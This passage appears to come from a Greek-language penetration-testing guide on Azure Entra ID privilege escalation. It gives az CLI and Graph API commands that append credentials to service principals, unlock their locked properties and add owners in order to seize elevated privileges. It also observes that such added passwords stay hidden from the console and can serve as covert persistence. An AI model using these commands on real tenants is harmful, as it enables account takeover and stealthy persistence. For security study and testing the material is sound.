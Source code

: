Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες υπηρεσιακούς κύριους. Εάν ο υπηρεσιακός κύριος έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
{% hint style="danger" %}
Ο νέος κωδικός πρόσβασης που δημιουργείται δεν θα εμφανίζεται στην κονσόλα ιστού, οπότε αυτό θα μπορούσε να είναι ένας κρυφός τρόπος για να διατηρήσετε την επιμονή σε έναν υπηρεσιακό κύριο.\
Από το API μπορούν να βρεθούν με: `az ad sp list --query '[?length(keyCredentials) > 0 || length(passwordCredentials) > 0].[displayName, appId, keyCredentials, passwordCredentials]' -o json`
{% endhint %}

Αν λάβετε το σφάλμα `"code":"CannotUpdateLockedServicePrincipalProperty","message":"Property passwordCredentials is invalid."` είναι επειδή **δεν είναι δυνατή η τροποποίηση της ιδιότητας passwordCredentials** του SP και πρώτα πρέπει να το ξεκλειδώσετε. Για αυτό χρειάζεστε μια άδεια (`microsoft.directory/applications/allProperties/update`) που σας επιτρέπει να εκτελέσετε:

{% code overflow="wrap" %}
```bash
az rest --method PATCH --url https://graph.microsoft.com/v1.0/applications/<sp-object-id> --body '{"servicePrincipalLockConfiguration": null}'
```
{% endcode %}

### `microsoft.directory/servicePrincipals/synchronizationCredentials/manage`

Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες υπηρεσιακούς κύριους. Εάν ο υπηρεσιακός κύριος έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
### `microsoft.directory/servicePrincipals/owners/update`

Παρόμοια με τις εφαρμογές, αυτή η άδεια επιτρέπει την προσθήκη περισσότερων ιδιοκτητών σε ένα service principal. Η κατοχή ενός service principal επιτρέπει τον έλεγχο των διαπιστευτηρίων και των αδειών του.
```bash
# Add new owner
spId="<spId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/servicePrincipals/$spId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body "{
\"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
}"

az ad sp credential reset --id <sp-id> --append

# You can check the owners with
az ad sp owner list --id <spId>
```
{% hint style="danger" %}
Αφού πρόσθεσα έναν νέο ιδιοκτήτη, προσπάθησα να τον αφαιρέσω αλλά η API απάντησε ότι η μέθοδος DELETE δεν υποστηρίζεται, ακόμα και αν είναι η μέθοδος που πρέπει να χρησιμοποιήσεις για να αφαιρέσεις τον ιδιοκτήτη. Έτσι, **δεν μπορείς να αφαιρέσεις ιδιοκτήτες σήμερα**.
{% endhint %}
